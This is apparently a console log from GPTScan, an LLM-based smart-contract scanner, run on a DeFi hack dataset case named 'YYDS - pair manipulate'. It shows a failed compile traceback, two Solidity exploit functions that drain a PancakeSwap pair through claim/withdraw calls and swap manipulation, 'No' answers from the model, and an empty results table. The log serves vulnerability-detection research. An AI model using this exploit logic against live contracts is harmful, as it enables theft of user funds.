 

  .oooooo.    ooooooooo.   ooooooooooooo  .oooooo..o                                 
 d8P'  `Y8b   `888   `Y88. 8'   888   `8 d8P'    `Y8                                 
888            888   .d88'      888      Y88bo.       .ooooo.   .oooo.   ooo. .oo.   
888            888ooo88P'       888       `"Y8888o.  d88' `"Y8 `P  )88b  `888P"Y88b  
888     ooooo  888              888           `"Y88b 888        .oP"888   888   888  
`88.    .88'   888              888      oo     .d8P 888   .o8 d8(  888   888   888  
 `Y8bood8P'   o888o            o888o     8""88888P'  `Y8bod8P' `Y888""8o o888o o888o                                                        


                                                                   

[16:20:45] Loaded 10 rules                                                                                                                                                                                                                  tasks.py:119
[12/08/24 16:20:45] INFO     CryticCompile: 'npx hardhat clean' running (wd: /home/owen/Documents/GitHub/GPTScan-Bigger-Model/datasets/skyonedot-DefiHacks-data/20220909 YYDS - pair manipulate)                                        subprocess.py:41
[12/08/24 16:20:46] INFO     CryticCompile: 'npx hardhat clean --global' running (wd: /home/owen/Documents/GitHub/GPTScan-Bigger-Model/datasets/skyonedot-DefiHacks-data/20220909 YYDS - pair manipulate)                               subprocess.py:41
[12/08/24 16:20:48] INFO     CryticCompile: 'npx hardhat compile --force' running (wd: /home/owen/Documents/GitHub/GPTScan-Bigger-Model/datasets/skyonedot-DefiHacks-data/20220909 YYDS - pair manipulate)                              subprocess.py:41
[12/08/24 16:20:49] ERROR    CryticCompile: 'npx' returned non-zero exit code 1                                                                                                                                                         subprocess.py:60
                    ERROR    CryticCompile: Error HH411: The library forge-std, imported from contracts/Yyds_exp.sol, is not installed. Try installing it using npm.                                                                    subprocess.py:68
                             stderr: For more info go to https://hardhat.org/HH411 or run Hardhat with --show-stack-traces                                                                                                                              
[16:20:49] Traceback (most recent call last):                                                                                                                                                                                               tasks.py:126
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/falcon/falcon.py", line 90, in __init__                                                                                                          
               crytic_compile = CryticCompile(target, **kwargs)                                                                                                                                                                                         
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/crytic_compile.py", line 131, in __init__                                                                                         
               self._compile(**kwargs)                                                                                                                                                                                                                  
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/crytic_compile.py", line 553, in _compile                                                                                         
               self._platform.compile(self, **kwargs)                                                                                                                                                                                                   
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/hardhat.py", line 183, in compile                                                                                        
               hardhat_like_parsing(crytic_compile, self._target, build_directory, hardhat_working_dir)                                                                                                                                                 
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/hardhat.py", line 52, in hardhat_like_parsing                                                                            
               raise InvalidCompilation(txt)                                                                                                                                                                                                            
           crytic_compile.platform.exceptions.InvalidCompilation: Compilation failed. Can you run build command?                                                                                                                                        
           /home/owen/Documents/GitHub/GPTScan-Bigger-Model/datasets/skyonedot-DefiHacks-data/20220909 YYDS - pair manipulate/artifacts/build-info is not a directory.                                                                                  
                                                                                                                                                                                                                                                        
           During handling of the above exception, another exception occurred:                                                                                                                                                                          
                                                                                                                                                                                                                                                        
           Traceback (most recent call last):                                                                                                                                                                                                           
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/src/tasks.py", line 124, in simple_cli                                                                                                                                              
               falcon_instance = compile_project(source_dir)                                                                                                                                                                                            
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/src/tasks.py", line 103, in compile_project                                                                                                                                         
               return falcon.Falcon(abs_path)                                                                                                                                                                                                           
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/falcon/falcon.py", line 94, in __init__                                                                                                          
               raise FalconError(f"Invalid compilation: \n{str(e)}")                                                                                                                                                                                    
           falcon.exceptions.FalconError: Invalid compilation:                                                                                                                                                                                          
           Compilation failed. Can you run build command?                                                                                                                                                                                               
           /home/owen/Documents/GitHub/GPTScan-Bigger-Model/datasets/skyonedot-DefiHacks-data/20220909 YYDS - pair manipulate/artifacts/build-info is not a directory.                                                                                  
                                                                                                                                                                                                                                                        
           Compile failed.                                                                                                                                                                                                                  tasks.py:127
           Since the compilation is failed, some static analysis tool may not be enabled, which may cause lower precision and recall.                                                                                                       tasks.py:128
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│     function testExploit() public {                                                                                                                                                                                                                  │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "[Start] Attacker USDT balance before exploit",                                                                                                                                                                                          │
│             USDT.balanceOf(address(this)),                                                                                                                                                                                                           │
│             18                                                                                                                                                                                                                                       │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         (reserve0, reserve1, ) = Pair.getReserves();                                                                                                                                                                                                 │
│         uint256 amount0Out = USDT.balanceOf(address(Pair));                                                                                                                                                                                          │
│         Pair.swap(amount0Out - 1 * 1e18, 0, address(this), new bytes(1));                                                                                                                                                                            │
│                                                                                                                                                                                                                                                      │
│          emit log_named_decimal_uint(                                                                                                                                                                                                                │
│             "[End] Attacker USDT balance after exploit",                                                                                                                                                                                             │
│             USDT.balanceOf(address(this)),                                                                                                                                                                                                           │
│             18                                                                                                                                                                                                                                       │
│         );                                                                                                                                                                                                                                           │
│     }                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {"1": "No"}                                                                                                                                                                                                                                          │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│     function pancakeCall(address sender, uint amount0, uint amount1, bytes calldata data)  public{                                                                                                                                                   │
│                                                                                                                                                                                                                                                      │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "Attacker YYDS balance before exploit",                                                                                                                                                                                                  │
│             YYDS.balanceOf(address(this)),                                                                                                                                                                                                           │
│             18                                                                                                                                                                                                                                       │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         targetClaim.claim(address(this));                                                                                                                                                                                                            │
│         try targetWihtdraw.withdrawReturnAmountByReferral(){                                                                                                                                                                                         │
│         } catch{                                                                                                                                                                                                                                     │
│         }                                                                                                                                                                                                                                            │
│         try targetWihtdraw.withdrawReturnAmountByMerchant(){                                                                                                                                                                                         │
│         } catch{                                                                                                                                                                                                                                     │
│         }                                                                                                                                                                                                                                            │
│         try targetWihtdraw.withdrawReturnAmountByConsumer(){                                                                                                                                                                                         │
│         } catch{                                                                                                                                                                                                                                     │
│         }                                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "Attacker YYDS balance after exploit",                                                                                                                                                                                                   │
│             YYDS.balanceOf(address(this)),                                                                                                                                                                                                           │
│             18                                                                                                                                                                                                                                       │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         uint256 yydsInContract = YYDS.balanceOf(address(this));                                                                                                                                                                                      │
│         YYDS.transfer(address(Pair), yydsInContract);                                                                                                                                                                                                │
│         uint256 yydsInPair = YYDS.balanceOf(address(Pair));                                                                                                                                                                                          │
│         uint256 amountUsdt = (reserve0 * reserve1 / ((yydsInPair * 10000 - yydsInContract * 25)/10000)) /9975*10000;                                                                                                                                 │
│         USDT.transfer(address(Pair), amountUsdt);                                                                                                                                                                                                    │
│                                                                                                                                                                                                                                                      │
│     }                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {"1": "No"}                                                                                                                                                                                                                                          │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
                      Scan Results                       
┏━━━━━━┳━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━┓
┃ Type ┃ Description ┃ Affected Files ┃ Analysis Report ┃
┡━━━━━━╇━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━┩
└──────┴─────────────┴────────────────┴─────────────────┘
                  Summary                   
┏━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━┓
┃ Key                  ┃ Value             ┃
┡━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━┩
│ Files                │ 1                 │
│ Contracts            │ 3                 │
│ Functions            │ 2                 │
│ Lines of Code        │ 85                │
│ Used Time            │ 5.622966527938843 │
│ Estimated Cost (USD) │ 0.0009405         │
└──────────────────────┴───────────────────┘
